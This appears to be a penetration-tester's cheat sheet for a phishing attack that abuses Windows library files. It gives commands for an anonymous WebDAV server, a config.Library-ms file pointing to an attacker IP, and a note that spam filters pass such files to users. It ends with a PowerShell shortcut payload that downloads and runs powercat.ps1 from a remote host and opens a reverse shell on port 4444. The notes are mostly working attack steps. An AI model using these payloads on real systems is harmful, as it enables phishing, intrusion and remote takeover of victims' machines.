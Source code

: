 majority of spam filters and other security controls will directly pass windows library files directly to user

```
pip3 install wsgidav

mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/


```

#### config.Library-ms

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

copy library ms file to victim machine

create shortcut with powershell and place in webdav directory

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.158:8000/powercat.ps1');
powercat -c 192.168.45.158 -p 4444 -e powershell"
```